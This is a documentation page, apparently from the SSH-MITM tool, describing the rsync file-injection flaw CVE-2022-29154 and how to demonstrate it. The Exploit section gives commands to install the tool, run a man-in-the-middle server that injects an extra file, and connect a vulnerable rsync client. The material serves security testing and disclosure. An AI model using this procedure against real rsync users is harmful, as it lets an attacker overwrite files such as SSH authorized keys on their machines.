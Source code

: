 CVE-2022-29154
==============

.. card::

    :bdg-warning:`CVSS N/A` NVD score not yet provided.
    ^^^
    An issue was discovered in rsync before 3.2.5 that allows malicious remote servers
    to write arbitrary files inside the directories of connecting peers.
    The server chooses which files/directories are sent to the client.
    However, the rsync client performs insufficient validation of file names.
    A malicious rsync server (or Man-in-The-Middle attacker) can overwrite arbitrary files in the
    rsync client target directory and subdirectories (for example, overwrite the .ssh/authorized_keys file).
    +++
    **Affected Software:**

    * rsync < 3.2.5

    :fas:`check;sd-text-success` integrated in `SSH-MITM <https://github.com/ssh-mitm/ssh-mitm/blob/develop/sshmitm/plugins/scp/CVE202229154.py>`_


Exploit
-------

This feature is currently only available in the development branch.

.. code-block::

    git clone https://github.com/ssh-mitm/ssh-mitm.git
    cd ssh-mitm
    git checkout develop
    pip install -U .

Run tthe server and add additional files to be requested:

.. code-block::

    ssh-mitm server --scp-interface CVE-2022-29154 --rsync-inject-file /bin/ls

Connect to client to the man in the middle server. Note in this example the ssh command has to be sepcified with another port.

.. code-block::

    rsync -e 'ssh -p 10022' 'user@SERVER:/bin/bash' .

If your rsync version is vulnerable you will reveive 2 files from the server.

